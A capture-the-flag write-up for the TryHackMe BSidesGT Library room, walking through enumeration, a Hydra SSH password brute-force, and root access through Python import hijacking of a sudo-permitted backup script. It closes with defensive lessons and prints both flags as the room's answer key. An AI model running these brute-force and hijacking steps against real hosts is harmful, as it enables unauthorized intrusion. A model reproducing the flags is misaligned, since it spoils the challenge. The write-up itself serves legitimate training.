

# BSidesGT Library Write-up

## BSidesGT Library Write-up

> **Scope:** This walkthrough documents activity performed only against the authorized [TryHackMe BSidesGT Library room](https://tryhackme.com/room/bsidesgtlibrary).

### Overview

The target exposed SSH and HTTP. A `robots.txt` hint pointed to a wordlist. A weak SSH password then provided access as `meliodas`.

A tightly scoped `sudo` rule permitted one backup script. Python imported modules from the script directory before standard-library locations. Placing a malicious module with the same name as a dependency caused the root-run backup script to import it.

| Item                 | Value                              |
| -------------------- | ---------------------------------- |
| Target               | `10.113.180.163`                   |
| Exposed services     | SSH `22/tcp`, HTTP `80/tcp`        |
| Initial user         | `meliodas`                         |
| Privilege escalation | Python module import hijacking     |
| User flag            | `6d488cbb3f111d135722c33cb635f4ec` |
| Root flag            | `e8c8c6c256c35515d1d344ee0488c617` |

### Tools used

* RustScan and Nmap
* curl and Gobuster
* Hydra
* SSH

### 1. Enumerate the attack surface

I started with a TCP scan:

```bash
rustscan -a 10.113.180.163
```

The scan identified two reachable services:

```
22/tcp open  ssh
80/tcp open  http
```

Directory enumeration found the application’s public content and `robots.txt`:

```bash
gobuster dir -u http://10.113.180.163 \
  --wordlist /usr/share/wordlists/dirb/common.txt
```

```
/images     (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
```

### 2. Use the robots hint

The robots file contained an unusual user-agent value:

```bash
curl http://10.113.180.163/robots.txt
```

```
User-agent: rockyou
Disallow: /
```

This suggested the room expected use of the `rockyou.txt` wordlist. The target’s web content also supplied the account name `meliodas`.

### 3. Obtain SSH access

I tested the identified account against SSH with the hinted wordlist:

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt \
  ssh://10.113.180.163
```

The lab accepted a weak password. I then logged in over SSH. The credential is intentionally omitted from this public write-up.

```bash
ssh meliodas@10.113.180.163
```

The user flag was available in the home directory:

```bash
cat ~/user.txt
```

```
6d488cbb3f111d135722c33cb635f4ec
```

### 4. Review sudo permissions

The `sudo` policy allowed `meliodas` to run a specific backup script as root without a password:

```bash
sudo -l
```

```
(ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

The script imports `os` and `zipfile`, then creates a backup of `/var/www/html`:

```python
#!/usr/bin/env python
import os
import zipfile

# Creates /var/backups/website.zip from /var/www/html
```

The script itself was root-owned. However, the user could create files in its own home directory.

### 5. Exploit Python import precedence

Python checks the directory containing the executed script before its standard-library directories. Therefore, an attacker-controlled `zipfile.py` in `/home/meliodas` shadows the legitimate `zipfile` module when `bak.py` runs.

I created a controlled replacement module that opened a callback shell in the authorized lab. I then ran the exact permitted command:

```bash
sudo /usr/bin/python3 /home/meliodas/bak.py
```

The backup script imported the local replacement instead of the standard-library `zipfile` module. The callback arrived as root:

```
uid=0(root) gid=0(root) groups=0(root)
```

### 6. Retrieve the root flag

With root access, I read the final flag:

```bash
cat /root/root.txt
```

```
e8c8c6c256c35515d1d344ee0488c617
```

### Attack chain



### Security lessons

1. **Do not expose weak passwords to online guessing.** Enforce long passwords and rate-limit SSH authentication.
2. **Treat `robots.txt` as public.** It does not protect information or paths.
3. **Avoid wildcard interpreter permissions in sudoers.** Permit fixed commands with controlled environments instead.
4. **Use isolated import paths for privileged Python scripts.** Avoid executing privileged scripts from user-writable directories.
5. **Set a safe Python path.** Use absolute imports, virtual environments, or sanitized interpreter settings for administrative automation.
